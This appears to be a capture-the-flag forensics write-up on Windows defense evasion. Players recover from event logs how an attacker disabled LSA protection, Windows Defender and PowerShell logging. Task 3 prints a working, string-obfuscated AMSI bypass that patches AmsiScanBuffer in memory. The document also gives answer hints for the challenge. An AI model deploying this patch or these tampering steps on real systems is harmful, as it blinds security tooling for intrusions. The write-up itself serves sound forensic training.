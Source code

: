 
![Gu1lf51dUs](https://github.com/user-attachments/assets/97e78c87-7a08-445e-b837-7e8a11becf59)

# Operation Blackout 2025: Smoke & Mirrors 


## Description
In Smoke & Mirrors, players analyze the provided event logs and forensic artifacts to uncover how the attacker disabled or altered security features. They must identify the tools, commands, or scripts used to reduce visibility and reconstruct the methods the attacker used to operate undetected. 


## Scenario
Byte Doctor Reyes is investigating a stealthy post-breach attack where several expected security logs and Windows Defender alerts appear to be missing. He suspects the attacker employed defense evasion techniques to disable or manipulate security controls, significantly complicating detection efforts. Using the exported event logs, your objective is to uncover how the attacker compromised the system's defenses to remain undetected.


## Artifacts
- Microsoft-Windows-Powershell.evtx - FD0391939810806A2518008B77EDF719B17F55D9AF826329FA1A6310AB00FF41
- Microsoft-Windows-Powershell-Operational.evtx - AFF7286F5ADD8D63F306F927D32F857A3CA8DD5AD4147C3BE4273E7A7017A348
- Microsoft-Windows-Sysmon-Operational.evtx - C1BD14FDF13FB4D64A85FEAD50FB200CCC6F369389DB08DB51477185DEEDBECF


## Skills
- Malicious use of PowerShell cmdlets
- Log Analysis
- Analyze and interpret Windows Registry modifications
- Identify how attackers disable or tamper with Windows security features


## Walkthrough
### Task 1: The attacker disabled LSA protection on the compromised host by modifying a registry key. What is the full path of that registry key?
Filter by "HKLM\SYSTEM" in the Windows PowerShell Operational logs to find were the attacker modified the LSA registry key.


### Task 2: Which PowerShell command did the attacker first execute to disable Windows Defender?
Look in the Windows PowerShell logs for the PowerShell cmdlet of "[Set-MpPreference](https://learn.microsoft.com/en-us/powershell/module/defender/set-mppreference?view=windowsserver2025-ps)"; could also search for conditionals with Set-MpPreference such as $true or $false. The first log was executed at '10-04-2025 12:01:35' 


### Task 3: The attacker loaded an AMSI patch written in PowerShell. Which function in the DLL is being patched by the script to effectively disable AMSI?
Search within the Windows-PowerShell-Operational logs for strings relating to '.dll', find that the attacker imported a function named 'Disable-Protection' which modifies 'amsi.dll'. Viewing the full script reveals that it attempts to patch the 'AmsiScanBuffer' function within the DLL.
```PowerShell
CommandInvocation(Add-Type): "Add-Type"
ParameterBinding(Add-Type): name="TypeDefinition"; value="using System;
using System.Runtime.InteropServices;
public class P {
    [DllImport("kernel32.dll")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32.dll")]
    public static extern IntPtr GetModuleHandle(string lpModuleName);
    [DllImport("kernel32.dll")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
    public static bool Patch() {
        IntPtr h = GetModuleHandle("a" + "m" + "s" + "i" + ".dll");
        if (h == IntPtr.Zero) return false;
        IntPtr a = GetProcAddress(h, "A" + "m" + "s" + "i" + "S" + "c" + "a" + "n" + "B" + "u" + "f" + "f" + "e" + "r");
        if (a == IntPtr.Zero) return false;
        UInt32 oldProtect;
        if (!VirtualProtect(a, (UIntPtr)5, 0x40, out oldProtect)) return false;
        byte[] patch = { 0x31, 0xC0, 0xC3 };
        Marshal.Copy(patch, 0, a, patch.Length);
        return VirtualProtect(a, (UIntPtr)5, oldProtect, out oldProtect);
    }
}"
```

### Task 4: Which command did the attacker use to restart the machine in Safe Mode?


### Task 5: Which PowerShell command did the attacker use to disable PowerShell command history logging?
